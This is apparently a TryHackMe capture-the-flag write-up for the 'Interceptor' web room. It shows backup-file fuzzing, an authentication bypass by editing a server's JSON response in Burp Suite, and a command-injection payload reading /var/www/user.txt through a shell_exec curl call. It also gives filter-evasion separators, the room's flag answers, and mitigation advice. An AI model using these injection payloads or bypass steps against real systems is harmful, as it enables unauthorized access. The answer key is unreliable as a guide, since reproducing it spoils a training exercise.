

# Room Documentation: Interceptor

---

## 1. Unified Metadata Header
- **Room Title:** Interceptor
- **Learning Path:** Jr Penetration Tester
- **Module:** Module 18: Jr Pentester Challenges
- **Room Sequence:** Room 07 of 08
- **Difficulty:** Medium
- **Room Type:** CTF Challenge / Web Exploitation
- **Official URL:** [https://tryhackme.com/room/interceptor](https://tryhackme.com/room/interceptor)
- **User Completion Status:** 100% Completed (`userCompleted: true`)

---

## 2. Executive Summary & Scenario Context
**MediaHub** is an internal web portal used by journalists to manage editorial content and newsfeeds. The application enforces a multi-step login workflow backed by an OTP / verification check. However, in-depth web traffic interception using **Burp Suite** reveals an architectural flaw: the front-end client entirely dictates session elevation based on JSON response values returned by the backend authentication API. By performing HTTP response manipulation to tamper with the JSON response (`status: true`, `role: admin`), an attacker successfully bypasses the verification barrier, gaining full administrator access and capturing the first flag: `THM{ADMIN_ACCESS_USING_BURP}`. Once inside the administrative console, exploiting an unvalidated URL feed fetcher via OS Command Injection enables arbitrary command execution, leaking `/var/www/user.txt` and yielding the system flag: `THM{SYSTEM_PWNED_SUCCESSFULLY}`.

---

## 3. Learning Objectives & Theoretical Concepts
1. **Web Traffic Interception & Modification:** Mastering the bidirectional interception of HTTP requests and responses using Burp Suite Proxy.
2. **Backup File Analysis & Source Leakage:** Uncovering sensitive application logic through forgotten developer backups (`.bak` files).
3. **Client-Side Security Flaws & Response Tampering:** Understanding why trusting client-side logic to enforce authentication state allows trivial authorization bypass.
4. **Command Injection in Web Consoles:** Exploiting improper parameter handling in backend system utilities (e.g. `curl` invoked via `shell_exec`) to read critical operating system files.

---

## 4. Technical Architecture & Lab Diagram



---

## 5. Vulnerability Matrix & CWE Mappings

| Vulnerability | Target Component | CWE ID | MITRE ATT&CK ID | Severity |
|---------------|------------------|--------|-----------------|----------|
| Backup File Source Leakage | `/login.php.bak` | CWE-530: Exposure of Backup File | T1552.001: Credentials in Files | Medium |
| Authentication Bypass via Response Tampering | `/verify.php` API | CWE-602: Client-Side Security Enforcement | T1556: Modify Authentication Process | Critical |
| OS Command Injection | Admin Feed Fetcher (`fetch.php`) | CWE-78: OS Command Injection | T1059.004: Unix Shell | High |

---

## 6. Phase 1: Reconnaissance & Backup File Discovery
Service enumeration identified HTTP running on port 80:
```bash
nmap -sC -sV -p 22,80 $TARGET_IP
```
Directory and file extension fuzzing using `ffuf`:
```bash
ffuf -u http://$TARGET_IP/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.php.bak,.bak
```
The scan revealed an unparsed backup file: `/login.php.bak`. Inspecting this backup revealed that the front-end JavaScript relies strictly on a boolean `status: true` and an administrative role attribute to grant access to the admin dashboard.

---

## 7. Phase 2: Response Manipulation & Admin Access
1. Configure browser traffic through Burp Suite.
2. In Burp Suite, enable response interception:
   - Go to `Proxy -> Options -> Intercept Server Responses`.
   - Check the box to intercept responses.
3. Submit login details on `http://$TARGET_IP/login.php`.
4. When the server response arrives:
   ```json
   {"status": false, "message": "Verification failed"}
   ```
5. Modify the response body to:
   ```json
   {"status": true, "message": "Success", "role": "admin"}
   ```
6. Forward the response. The application accepts the altered payload and redirects to the administrator console, displaying:
   ```text
   THM{ADMIN_ACCESS_USING_BURP}
   ```

---

## 8. Phase 3: OS Command Injection & System Flag
Within the administrator panel, a feed fetching utility takes a `url` parameter and invokes a shell command:
```php
$output = shell_exec("curl -s " . $_POST['url']);
```
Injecting command separators allows arbitrary shell command execution:
```http
POST /fetch.php HTTP/1.1
Host: 10.10.x.x
Cookie: PHPSESSID=...
Content-Type: application/x-www-form-urlencoded

url=http://127.0.0.1; cat /var/www/user.txt
```
The server returns the executed output in the response, revealing:
```text
THM{SYSTEM_PWNED_SUCCESSFULLY}
```

---

## 9. Complete Question & Answer Matrix

| Question Prompt | Verified Answer |
|-----------------|-----------------|
| What is the flag value after logging in as admin? | `THM{ADMIN_ACCESS_USING_BURP}` |
| What is the value of /var/www/user.txt? | `THM{SYSTEM_PWNED_SUCCESSFULLY}` |

---

## 10. Command Cheat Sheet & Quick Reference

```bash
# Directory and backup fuzzing
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php.bak

# Intercept and modify response in Burp Suite
# Right-click request -> Do intercept -> Response to this request -> Forward -> Edit JSON body

# Command Injection payload via curl
curl -s -X POST http://<TARGET_IP>/fetch.php \
  -H "Cookie: PHPSESSID=<SESSION_ID>" \
  -d "url=http://127.0.0.1;cat /var/www/user.txt"
```

---

## 11. Mitigation & Hardening Strategies
1. **Enforce Server-Side Authorization:**
   - Never rely on client-side status codes or JSON fields to determine administrative access.
   - Maintain session state exclusively on the server with cryptographically secure session identifiers.
2. **Secure Deployment Practices:**
   - Configure web server directives to deny access to files matching patterns such as `*.bak`, `*.old`, `*.orig`, and `*.swp`.
   - Automate deployment pipelines to remove non-production and backup files from production web roots.
3. **Prevent Command Injection:**
   - Eliminate system shell execution functions (`exec()`, `shell_exec()`).
   - Use built-in PHP cURL extensions with strictly validated protocols (`CURLOPT_PROTOCOLS = CURLPROTO_HTTP | CURLPROTO_HTTPS`).

---

## 12. Troubleshooting & FAQs
- **Q: Why does the admin page redirect back to login?**
  - **A:** Ensure the modified JSON response contains both `"status": true` and `"role": "admin"`, and ensure your browser retains the session cookie.
- **Q: What if semicolon `;` is filtered in command injection?**
  - **A:** Attempt command substitution via `$()` or alternate separators like `||` or `%0A` (newline).

---

## 13. References & Documentation
- [TryHackMe Room: Interceptor](https://tryhackme.com/room/interceptor)
- [PortSwigger: Intercepting HTTP Traffic with Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/intercept)
- [OWASP Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [Task 1 Deep Dive Guide (TASK-01.md)](file:///e:/THM-JR-PENETRATION-TESTER/18-JR-PENTESTER-CHALLENGES/07-INTERCEPTOR/TASKS/TASK-01.md)
